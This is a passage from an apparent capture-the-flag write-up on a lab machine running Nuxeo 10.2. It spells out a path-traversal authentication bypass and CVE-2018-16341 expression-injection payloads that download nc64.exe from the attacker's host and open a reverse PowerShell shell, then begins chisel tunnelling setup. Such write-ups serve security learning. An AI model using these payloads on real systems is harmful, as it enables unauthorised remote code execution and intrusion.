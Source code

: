 ```
You will see here ```window.location = 'http://10.10.11.115/nuxeo/login.jsp';``` in body as it will redirect to login.jsp after performing curl command to ```http://10.10.11.115/maintenance/..;/nuxeo/nxstartup.faces```
But it bring 404 NOT FOUND then with this 

<img src='/assets/img/gobuster-vuln-hanclife.png' alt='gobuster on vuln'>

this ```http://10.10.11.115/maintenance/..;/login.jsp``` in which you can obtain after some bruteforce

Opening..

<img src='/assets/img/web-page-nuxeon-hanclife.png' alt='login page nuxeo'>

From above image, we can see the version from below right side as ```NUXEO PLATFORM   FT 10.2``` in which has vulnerability about Nuxeo Authentication Bypass Remote Code Execution (CVE-2018-16341)

Testing to see if it has vulnerability by maintenance/..;/login.jsp/pwn${999999999+1000000000}.xhtml

<img src='/assets/img/nuxeo-vuln-hancliffe.png' alt='nuxeo vuln'>

start web server in your pc with nc64.exe
then this like ```python3 -m http.server 80```
Uploading nc64.exe to server

```http://10.10.11.115/maintenance/..;/login.jsp/pwn/${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("powershell -c curl 10.10.14.138/nc64.exe -outfile \programdata\nc64.exe",null).waitFor()}.xhtml```

then nc -nvlp 1234

```http://10.10.11.115/maintenance/..;/login.jsp/pwn/${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("powershell -c \programdata\nc64.exe -e powershell 10.10.14.138 1234",null).waitFor()}.xhtml```

then we have a shell as svc-account

<img src='/assets/img/shell-as-svc_account.Hanclife.png' alt='shell as svc-account'>


read this <a href="https://adamtheautomator.com/netstat-port/" target="_blank" rel="noopener">blog show more explanation about netstat and powershell</a> in which we will use it

```
Get-NetTCPConnection -State Listen | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}} | Format-Table -Property LocalAddress,LocalPort,OwningProcess,ProcessName
```
the command above..

<img src='/assets/img/investigate-process-hanclife.png' alt='process'>

Googling for  <a href="https://www.file.net/process/remoteserverwin.exe.html" target="_blank" rel="noopener">RemoteServerWin.exe</a> shows it’s associated with the <a href="https://www.exploit-db.com/exploits/49587" target="_blank" rel="noopener">Unified Remote 3.9.0.2463</a>  

the script show that it connect TCP port 9512 but the problem come that the access is only inside so we need some kind
of tunneling so will use chisel- <a href="https://github.com/jpillora/chisel" target="_blank" rel="noopener">repo</a> 

Setting up chisel
```
#windows
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gzip -d chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 chisel.exe